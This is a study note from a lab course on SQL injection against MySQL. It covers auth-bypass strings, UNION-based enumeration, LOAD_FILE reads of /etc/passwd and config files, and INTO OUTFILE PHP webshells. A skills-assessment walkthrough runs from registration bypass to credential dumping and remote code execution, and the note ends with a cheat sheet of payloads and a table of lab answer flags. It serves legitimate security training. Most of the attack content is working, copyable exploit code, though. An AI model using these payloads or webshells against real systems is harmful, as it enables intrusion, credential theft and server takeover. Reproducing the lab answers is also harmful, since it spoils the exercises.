

# SQL Injection Fundamentals (HTB Supplementary)

#SQLInjection #MySQL #UNION #AuthBypass #LOADFILE #INTOOUTFILE #InformationSchema #DatabaseEnumeration #WebShell #HTBSupplementary

**HTB SQL Injection Fundamentals module**, supplements Offsec Module 10 (SQL Injection Attacks). The Offsec module dives straight into injection techniques assuming you already know MySQL. This module adds: MySQL client CLI fundamentals (SHOW/USE/DESCRIBE/LIKE/COUNT), the parenthesis-closing auth bypass variant, incremental UNION column count discovery, the `super_priv` check approach, and a chained registration-bypass + login-injection skills assessment.

Already in vault (cross-referenced, not duplicated): UNION-based injection and ORDER BY column count, information_schema enumeration, INTO OUTFILE webshell, LOAD_FILE file reading, secure_file_priv and user_privileges checks. See [[SQL Injection Attacks]], [[SQL Injection & Databases]], [[SQL Injection (Breakdowns)]].

> 🔁 Cross-refs: [[SQL Injection Attacks#10.2. Manual SQL Exploitation|10.2 UNION technique]], [[SQL Injection Attacks#10.3.1. Manual Code Execution|10.3.1 INTO OUTFILE]], [[SQL Injection & Databases#MySQL|MySQL Command Appendix]], [[SQL Injection & Databases (Decision Tree)|SQLi Decision Tree]]

---

## Outstanding Sections

- [x] SQIF.1. MySQL Client Basics
- [x] SQIF.2. SQL Statements (SELECT / WHERE / LIKE / DESCRIBE)
- [x] SQIF.3. Query Results (LIKE wildcards, AND/OR operators)
- [x] SQIF.4. SQL Operators (COUNT, NOT LIKE)
- [x] SQIF.5. Auth Bypass (Subverting Query Logic)
- [x] SQIF.6. Comment Variants and Parenthesis-Closing Bypass
- [x] SQIF.7. UNION Column Count (Incremental Method)
- [x] SQIF.8. UNION Injection (Identifying Visible Columns)
- [x] SQIF.9. Database Enumeration (INFORMATION_SCHEMA.COLUMNS cross-db)
- [x] SQIF.10. Reading Files (super_priv + FILE privilege checks + LOAD_FILE)
- [x] SQIF.11. Writing Files (INTO OUTFILE short webshell)
- [x] SQIF.12. Skills Assessment (Registration bypass → UNION chain → webshell RCE)

---

## SQIF.1. MySQL Client Basics

The `mysql` CLI client connects directly to a remote MySQL/MariaDB server. You'll use this to confirm what a target exposes and to practice queries before injecting them.

```bash
# Connect to a remote MySQL server
mysql -h TARGET_IP -P PORT -u root -ppassword
# -h = host, -P = port (capital P), -u = username, -p = password (no space after -p)

# If TLS errors: add --skip-ssl-verify-server-cert or --ssl-mode=disabled
```

Once connected, the prompt changes to `MariaDB [(none)]>` or `MySQL [(none)]>`.

**Core navigation commands:**
```sql
-- List all databases
SHOW databases;

-- Switch to a database
USE employees;

-- List tables in the current database
SHOW TABLES;

-- Inspect a table's columns and types
DESCRIBE employees;
-- or: SHOW COLUMNS FROM employees;

-- Check which user you're connected as
SELECT user();

-- Check the server version
SELECT version();
-- or: SELECT @@version;
```

> 🔍 Worth remembering generally: MySQL commands end with `;` or `\g`. Without a terminator, pressing Enter just moves to the next prompt line. If you're stuck at an open prompt (`->` instead of `>`), type `; -- ;` or `\c` to cancel the current input and return to the main prompt.

**Q1 Answer (first database):** `employees`

#### Tags: #MySQL #MySQLClient #BasicSQL

---

## SQIF.2. SQL Statements (SELECT, WHERE, DESCRIBE)

```sql
USE employees;

-- Show all tables
SHOW TABLES;

-- Inspect schema of a specific table
DESCRIBE departments;
-- Output: dept_no (char 4), dept_name (varchar 40)

-- Targeted query — find a specific row
SELECT dept_no FROM departments WHERE dept_name = "Development";
-- Result: d005

-- Retrieve all rows from a small table to browse
SELECT * FROM departments;
```

**Q1 Answer (department number for Development):** `d005`

#### Tags: #MySQL #SELECT #WHERE #DESCRIBE

---

## SQIF.3. Query Results (LIKE, AND)

`LIKE` is MySQL's pattern-matching operator. `%` is a wildcard matching zero or more characters (SQL equivalent of `.*` in regex). `_` matches exactly one character.

```sql
-- LIKE with % wildcard: first name starts with "Bar"
SELECT last_name FROM employees
WHERE first_name LIKE 'Bar%'
  AND hire_date = '1990-01-01';
-- Result: Mitchem

-- Other LIKE patterns:
--   LIKE '%son'       → ends with "son"
--   LIKE '%admin%'    → contains "admin"
--   LIKE 'a_min'      → "admin", "azmin", etc. (5-char, starts with a, 3rd char = i, ends min)
```

> 🔍 Worth remembering generally: in SQLi payloads, `LIKE '%engineer%'` (with `%` on both sides) is the correct pattern to check if a field *contains* a word. `LIKE 'engineer%'` only matches if the field *starts with* it. Common error: using `=` when the value needs substring matching.

**Q1 Answer (last name):** `Mitchem`

#### Tags: #MySQL #LIKE #AND #QueryFiltering

---

## SQIF.4. SQL Operators (COUNT, OR, NOT LIKE)

```sql
-- COUNT(*) — count matching rows rather than returning them all
-- OR — true if either condition is true
-- NOT LIKE — negate a LIKE pattern

SELECT COUNT(*) FROM titles
WHERE emp_no > 10000
   OR title NOT LIKE '%engineer%';
-- Result: 654
```

**How the boolean logic works here:**
- `emp_no > 10000` is true for most employees
- `OR` means the row is included if *either* condition is true
- `NOT LIKE '%engineer%'` catches titles that don't contain "engineer" (Staff, Manager, etc.)

> 🔍 Worth remembering generally: SQL operator precedence: `NOT` binds tighter than `AND`, which binds tighter than `OR`. So `WHERE A OR B AND NOT C` parses as `WHERE A OR (B AND (NOT C))`. When in doubt, use parentheses to make the logic explicit.

**Q1 Answer (row count):** `654`

#### Tags: #MySQL #COUNT #OR #NOTLIKE #SQLOperators

---

## SQIF.5. Auth Bypass (Subverting Query Logic)

> 🔁 Similar to: [[SQL Injection Attacks#10.2.1 Authentication Bypass|10.2.1 auth bypass]], the technique is the same, these are additional payload variants.

The backend auth query typically looks like:
```sql
SELECT * FROM users WHERE username='INPUT' AND password='INPUT';
```

Two classic payload patterns to make the `WHERE` clause always true:

**Pattern A: terminate the string and comment the rest**
```
tom'; -- -
```
The query becomes `WHERE username='tom'; -- - ' AND password='...'`, everything after `-- -` is a comment.

**Pattern B: OR injection**
```
tom' OR '1' = '1' -- -
```
The `OR '1'='1'` is always true, so the query returns a row regardless of the password.

> 📸 Screenshot: login page accepting `tom'; -- -` and showing the flag after bypass

**Comment syntax variants in MySQL:**
| Syntax | Notes |
|--------|-------|
| `-- -` | Double-dash comment. The trailing space (or `-`) is required — MySQL needs whitespace after `--` |
| `#` | Hash comment. Works in MySQL, not in MSSQL or PostgreSQL |
| `/*comment*/` | C-style inline comment. Also valid in MySQL |

**Q1 Answer:** `202a1d1a8b195d5e9a57e434cc16000c`

#### Tags: #AuthBypass #SQLiLogin #CommentSyntax #MySQL

---

## SQIF.6. Comment Variants and Parenthesis-Closing Bypass

> **Key new pattern not in the Offsec module:** when the backend query wraps user input in parentheses, you need to close the bracket before commenting.

If the backend query is:
```sql
SELECT * FROM users WHERE (id='INPUT') AND ...
```

Then `'; -- -` alone won't work because it leaves an unclosed `)`. The correct payload closes the parenthesis first:
```
' OR ID=5)-- -
```

This makes the query:
```sql
SELECT * FROM users WHERE ('' OR ID=5)-- - ') AND ...
```
Everything after `-- -` is commented, and `ID=5` selects the specific user you want.

> 🔍 Worth remembering generally: when an auth bypass isn't working even though you can confirm SQLi (single quote causes an error), the query might have parentheses wrapping your input. Try adding `)` before the comment to close whatever bracket structure the backend uses. Burp Repeater is useful here: compare the response size with `'; -- -` vs `)-- -` vs `')-- -` to see which one stops the error.

> 📸 Screenshot: login form accepting `' OR ID=5)-- -` and showing the flag for user ID 5

**Q1 Answer:** `cdad9ecdf6f14b45ff5c4de32909caec`

#### Tags: #AuthBypass #ParenthesisClosing #SQLi #CommentVariants

---

## SQIF.7. UNION Column Count (Incremental Method)

> 🔁 Similar to: [[SQL Injection Attacks#10.2.2 UNION-Based|10.2.2 ORDER BY method]]. ORDER BY is the other approach. Incremental UNION is often faster when you don't know if the app is filtering on ORDER BY keywords.

The incremental UNION approach: keep adding columns (1, 2, 3...) until the query stops erroring:

```sql
-- Each returns a SQL error until the column count matches
' UNION SELECT 1-- -           -- error: column count doesn't match
' UNION SELECT 1,2-- -         -- error
' UNION SELECT 1,2,3-- -       -- error
' UNION SELECT 1,2,3,4-- -     -- SUCCESS (200 response, no SQL error)
```

So the query selects 4 columns.

> 📸 Screenshots: sequence of error responses for 1-3 columns, then success at 4

**How it differs from ORDER BY:**
- `ORDER BY N-- -` errors when N exceeds the column count (you're sorting by a column that doesn't exist)
- `UNION SELECT 1,2,...,N-- -` errors when the column counts don't match
- Both give you the column count, incremental UNION also immediately positions you to inject data
- Use ORDER BY when the injection point is in a GET parameter where URL length isn't an issue; use incremental UNION when ORDER BY is filtered/blocked or when you want to combine discovery + data extraction in fewer steps

**Q1 Answer (UNION record count for employees UNION departments):** `663`

#### Tags: #UNION #ColumnCount #SQLi #IncrementalUnion

---

## SQIF.8. UNION Injection (Identifying Visible Columns)

After finding the column count is 4, identify which columns are actually rendered on the page. Replace the dummy numbers with distinctive strings or MySQL functions:

```sql
' UNION SELECT 1,user(),3,4-- -
```

If `user()` appears in the response, column 2 is rendered. Keep trying column positions until you find which ones show up on the page.

```sql
-- Dump the current user (confirms which columns render)
' UNION SELECT 1,user(),3,4-- -
-- Result: root@localhost

-- Other useful single-value functions
' UNION SELECT 1,@@version,3,4-- -      -- MySQL version
' UNION SELECT 1,database(),3,4-- -     -- current database name
' UNION SELECT 1,@@hostname,3,4-- -     -- server hostname
```

> 🔍 Worth remembering generally: column 1 is often an integer ID field and won't render string values (you'll get a blank or `0` instead of text). Try columns 2, 3, 4 etc. if column 1 doesn't show your injected value. The `user()` result confirms exactly which column you can use to extract data.

**Q1 Answer:** `root@localhost`

#### Tags: #UNIONInjection #VisibleColumns #SQLi #DatabaseEnumeration

---

## SQIF.9. Database Enumeration (INFORMATION_SCHEMA.COLUMNS)

Once you have a working UNION injection, enumerate tables and columns systematically.

**Step 1: Find all tables in a specific database**
```sql
foo' UNION SELECT 1,TABLE_SCHEMA,TABLE_NAME,COLUMN_NAME
FROM INFORMATION_SCHEMA.COLUMNS
WHERE TABLE_NAME='users'-- -
```
This returns schema name, table name, and column names for any table named `users` across all databases.

**Step 2: Query a specific table in a named database (cross-database notation)**
```sql
-- db.table notation: access a table in a different database than the current one
foo' UNION SELECT 1,username,password,4
FROM ilfreight.users-- -
```

> 🔍 Worth remembering generally: `INFORMATION_SCHEMA.COLUMNS` is the go-to view for column enumeration: each row represents one column in one table. `TABLE_SCHEMA` = database name, `TABLE_NAME` = table name, `COLUMN_NAME` = column name. You can chain `WHERE TABLE_SCHEMA='dbname' AND TABLE_NAME='tablename'` to narrow results. `INFORMATION_SCHEMA.TABLES` gives you the table list; `INFORMATION_SCHEMA.COLUMNS` gives you column names inside each table.

> 🔁 Similar to: [[SQL Injection Attacks#10.2. Manual SQL Exploitation|10.2]], the Offsec module uses `WHERE table_schema=database()` for the current DB; this module shows `WHERE TABLE_NAME='users'` and the `db.table` notation for cross-database access.

**Q1 Answer (password hash for newuser):** `9da2c9bcdf39d8610954e0e11ea8f45f`

#### Tags: #InformationSchema #DatabaseEnumeration #UNION #CrossDatabase

---

## SQIF.10. Reading Files (super_priv + FILE Privilege + LOAD_FILE)

Before trying to read files, confirm the MySQL user has the necessary privileges. Three checks:

**Check 1: Is the user a super admin?**
```sql
foo' UNION SELECT 1,super_priv,3,4 FROM mysql.user-- -
-- Result: Y  (Y = YES, has super privileges)
```

**Check 2: Does the user have the FILE privilege?**
```sql
foo' UNION SELECT 1,grantee,privilege_type,4
FROM information_schema.user_privileges-- -
-- Look for FILE in the privilege_type column
```

**Check 3: What is secure_file_priv set to?**
```sql
foo' UNION SELECT 1,variable_name,variable_value,4
FROM information_schema.global_variables
WHERE variable_name='secure_file_priv'-- -
-- Empty value = can read/write anywhere
-- A path = restricted to that path
-- NULL = cannot read/write files at all
```

**Read files once confirmed:**
```sql
-- Read a PHP source file to look for includes
foo' UNION SELECT 1,LOAD_FILE("/var/www/html/search.php"),3,4-- -

-- Found: include('config.php') in the source
-- Now read that config file
foo' UNION SELECT 1,LOAD_FILE("/var/www/html/config.php"),3,4-- -
-- DB_PASSWORD = dB_pAssw0rd_iS_flag!
```

> 📸 Screenshot: UNION result showing config.php contents with DB_PASSWORD value

> 🔍 Worth remembering generally: when reading PHP source via LOAD_FILE, you often see the file rendered by the browser (the PHP gets executed if the file is served through the web server). That's why LOAD_FILE works better here: it reads the raw file bytes from disk, bypassing PHP's execution. The rendered result in the page might be HTML-encoded, use "View Source" in the browser rather than looking at the rendered output.

> 🔁 Similar to: [[SQL Injection Attacks#Capstone Labs|Capstone VM #2]], same LOAD_FILE pattern. [[SQL Injection & Databases#MySQL|Command Appendix MySQL section]] has the flag-reading variant.

**Q1 Answer:** `dB_pAssw0rd_iS_flag!`

#### Tags: #LOADFILE #FileRead #FILE #SuperPriv #MySQLUser

---

## SQIF.11. Writing Files (INTO OUTFILE — Short PHP Webshell)

Once confirmed you have FILE privilege and `secure_file_priv` is empty:

```sql
-- Standard webshell (already in vault)
foo' UNION SELECT "",'<?php system($_REQUEST["cmd"]); ?>',"","" INTO OUTFILE '/var/www/html/shell.php'-- -

-- Shorter equivalent (backtick shorthand for system() in PHP)
foo' UNION SELECT "",'<?=`$_GET[0]`?>',"","" INTO OUTFILE '/var/www/html/shell.php'-- -
```

**The `<?=`$_GET[0]`?>` webshell explained:**
- `<?=` is PHP's "short echo tag": equivalent to `<?php echo `. No `echo` keyword needed.
- `` ` `` (backticks) in PHP execute the enclosed string as a shell command and return the output. So `` `$_GET[0]` `` runs the value of the `0` GET parameter as a command.
- `?>` closes the PHP block.
- Net result: visiting `/shell.php?0=id` runs `id` on the server and echoes the output.

**Use the webshell:**
```bash
# Simple URL-encoded command execution
curl 'http://TARGET:PORT/shell.php?cmd=id'

# The short-form webshell uses parameter name "0"
curl 'http://TARGET:PORT/shell.php?0=id'

# Find and read the flag
http://TARGET:PORT/shell.php?cmd=cat%20../flag.txt
```

> 🔧 Technique: INTO OUTFILE refuses to overwrite an existing file (`File already exists` error). If you get this, change the filename (e.g. `shell2.php`) and retry. The server-side file persists between lab resets if other students have already written one.

> 🔁 Similar to: [[SQL Injection Attacks#10.3.1. Manual Code Execution|10.3.1 INTO OUTFILE webshell]], [[SQL Injection & Databases#MySQL|Command Appendix]], the short-form `<?=`` backtick `` ?>` is the new variant not in the Offsec module.

**Q1 Answer:** `d2b5b27ae688b6a0f1d21b7d3a0798cd`

#### Tags: #INTOOUTFILE #WebShell #PHP #RCE #FileWrite

---

## SQIF.12. Skills Assessment

A chained 3-part assessment. Each question builds on the previous one.

### Q1: Admin password hash

**The chain:**

1. Find the registration page (`register.php`) and try to register. Get "Invalid Invitation Code" error.

2. Test the invitation code field with a single quote. 500 Internal Server Error confirms SQLi.

3. Bypass the invite code check: the backend query likely wraps the code in a condition like `WHERE invite_code='INPUT'`. Try the parenthesis-closing auth bypass:
```
') OR 1=1-- -
```
This makes the check always return true. Registration succeeds.

4. Log in with your newly created account. Find a chat search feature at `index.php?q=search&u=1`.

5. Test `u=1'`. 500 error confirms SQLi in the `u` parameter. Test `u=1')-- -`. 200 OK confirms the query uses parentheses.

6. Find the column count with incremental UNION:
```
') UNION SELECT 1,2,3-- -         (error)
') UNION SELECT 1,2,3,4-- -       (success, 200 OK)
```

7. Identify which columns render by injecting functions into each position:
```
') UNION SELECT 1,2,@@version,database()-- -
-- Response shows: 10.11.11-MariaDB | chattr
```
Columns 3 and 4 render. Database name is `chattr`.

8. Enumerate tables in `chattr`:
```
') UNION SELECT 1,2,TABLE_NAME,TABLE_SCHEMA FROM INFORMATION_SCHEMA.TABLES WHERE table_schema='chattr'-- -
```
Tables include `Users`.

9. Enumerate columns in `Users`:
```
') UNION SELECT 1,2,COLUMN_NAME,TABLE_NAME FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='Users'-- -
```
Columns: `username`, `password`.

10. Dump credentials:
```
') UNION SELECT 1,2,username,password FROM chattr.Users-- -
```

> 📸 Screenshot: UNION result showing admin username with argon2i hash

**Q1 Answer:** `$argon2i$v=19$m=2048,t=4,p=3$dk4wdDBraE0zZVllcEUudA$CdU8zKxmToQybvtHfs1d5nHzjxw9DhkdcVToq6HTgvU`

### Q2: Web application root path

The response headers reveal `Server: nginx`. Nginx's default site config lives at `/etc/nginx/sites-enabled/default` and contains the `root` directive pointing to the web root.

**Check FILE access first:**
```
') UNION SELECT 1,2,LOAD_FILE("/etc/passwd"),4-- -
```
If `/etc/passwd` renders, FILE reads work.

**Read the Nginx config:**
```
') UNION SELECT 1,2,LOAD_FILE("/etc/nginx/sites-enabled/default"),4-- -
```
Response contains `root /var/www/chattr-prod;`.

> 🔍 Worth remembering generally: when you need the web root path for INTO OUTFILE, check the web server's config file. Apache: `/etc/apache2/sites-enabled/000-default.conf`. Nginx: `/etc/nginx/sites-enabled/default`. The `root` or `DocumentRoot` directive gives you the writable path to aim your webshell at.

**Q2 Answer:** `/var/www/chattr-prod`

### Q3: Remote code execution — flag in /flag_XXXXXX.txt

Write a test file first to confirm write access:
```
') UNION SELECT 1,2,"test",4 INTO OUTFILE '/var/www/chattr-prod/test.txt'-- -
```
Even if the response is a 500 error, visit `/test.txt`, if it returns "test", the file was written (the 500 is just MySQL's side effect of an uncompleted result, not a write failure).

Write the webshell:
```
') UNION SELECT 1,2,'<?=`$_GET[0]`?>',4 INTO OUTFILE '/var/www/chattr-prod/shell.php'-- -
```

Test execution:
```
http://TARGET:PORT/shell.php?0=id
-- Response: uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Read the flag (wildcard, don't know the exact filename):
```
http://TARGET:PORT/shell.php?0=cat%20/*.txt
```

> 📸 Screenshot: shell.php?0=id output confirming www-data execution, then shell.php?0=cat/*.txt showing the flag

**Full attack chain (Mermaid):**


**Q3 Answer:** `061b1aeb94dec6bf5d9c27032b3c1d8d`

#### Tags: #SkillsAssessment #SQLi #UNION #RegistrationBypass #WebShell #LOADFILE #Nginx

---

## All Q&A Answers

| Section | Q# | Answer |
|---------|----|--------|
| Intro to MySQL | 1 | `employees` |
| SQL Statements | 1 | `d005` |
| Query Results | 1 | `Mitchem` |
| SQL Operators | 1 | `654` |
| Subverting Query Logic | 1 | `202a1d1a8b195d5e9a57e434cc16000c` |
| Using Comments | 1 | `cdad9ecdf6f14b45ff5c4de32909caec` |
| Union Clause | 1 | `663` |
| Union Injection | 1 | `root@localhost` |
| Database Enumeration | 1 | `9da2c9bcdf39d8610954e0e11ea8f45f` |
| Reading Files | 1 | `dB_pAssw0rd_iS_flag!` |
| Writing Files | 1 | `d2b5b27ae688b6a0f1d21b7d3a0798cd` |
| Skills Assessment | 1 | `$argon2i$v=19$m=2048,t=4,p=3$dk4wdDBraE0zZVllcEUudA$CdU8zKxmToQybvtHfs1d5nHzjxw9DhkdcVToq6HTgvU` |
| Skills Assessment | 2 | `/var/www/chattr-prod` |
| Skills Assessment | 3 | `061b1aeb94dec6bf5d9c27032b3c1d8d` |

---

## External Resources

- [HackTricks. SQL Injection](https://github.com/HackTricks-wiki/hacktricks/blob/master/pentesting-web/sql-injection/README.md)
- [PayloadsAllTheThings. SQL Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)
- [PortSwigger SQL Injection Cheat Sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

---

## Module Summary

This module covers SQL fundamentals (MySQL CLI basics) and the core injection chain for MySQL targets: auth bypass (with and without parenthesis variants), UNION column count (incremental method), visible column identification, information_schema enumeration, FILE privilege checking, LOAD_FILE for source code and config file reading, and INTO OUTFILE for webshell delivery. The skills assessment demonstrates a complete chain: registration-code bypass to create an account, then UNION injection in a chat feature to enumerate credentials, read the web root path from Nginx config, and write a webshell for RCE.

**Tools:** mysql CLI, Burp Suite (for repeating requests during column count discovery)
**Key webshell variant:** `<?=`$_GET[0]`?>` (shorter, avoids URL-encoding issues with `system()`)


---

## HTB Module Quick Reference

Commands formatted for use with the [[Pre-Engagement Kali Setup]] variable block.

```bash
# ============================================================
# MYSQL BASICS (manual login and enumeration)
# ============================================================
mysql -u root -h $BoxIP -P 3306 -p   # connect to MySQL
# In the MySQL shell:
SHOW DATABASES;
USE target_db;
SHOW TABLES;
DESCRIBE users;
SELECT * FROM users;
SELECT username, password FROM users;
SELECT * FROM users ORDER BY id DESC LIMIT 5;
SELECT * FROM users WHERE username LIKE 'admin%';

# ============================================================
# AUTH BYPASS PAYLOADS
# ============================================================
# Basic: always-true condition
admin' or '1'='1
admin' or 1=1-- -
admin')-- -

# ============================================================
# UNION INJECTION — COLUMN COUNT
# ============================================================
# Step 1: find column count with ORDER BY (increment until error)
' order by 1-- -
' order by 2-- -
' order by 3-- -   # keep going until "Unknown column" error

# Step 2: confirm with UNION SELECT (match column count)
' UNION select 1,2,3-- -   # adjust number of fields to match
' UNION select 1,@@version,3,4-- -   # version fingerprint in column 2

# Step 3: dump data
' UNION select username, password, 3, 4 from users-- -

# ============================================================
# DB ENUMERATION VIA UNION
# ============================================================
' UNION select 1,database(),2,3-- -   # current database name
' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -   # all databases
' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='target_db'-- -   # tables in a DB
' UNION select 1,COLUMN_NAME,TABLE_NAME,4 from INFORMATION_SCHEMA.COLUMNS where table_name='users'-- -   # columns in a table
' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -

# Cross-database dump
' UNION select 1, username, password, 4 from dev.credentials-- -

# Privilege check
' UNION SELECT 1, user(), 3, 4-- -   # current user
' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -   # superuser?
' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -   # writable dirs

# ============================================================
# FILE READ / WRITE VIA SQLi
# ============================================================
# Read a local file (requires FILE privilege)
' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -

# Write a webshell (requires FILE privilege + web root writable)
' UNION SELECT "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -

# Confirm web root path first (look for Nginx/Apache config via LOAD_FILE)
' UNION SELECT 1, LOAD_FILE("/etc/nginx/nginx.conf"), 3, 4-- -
```
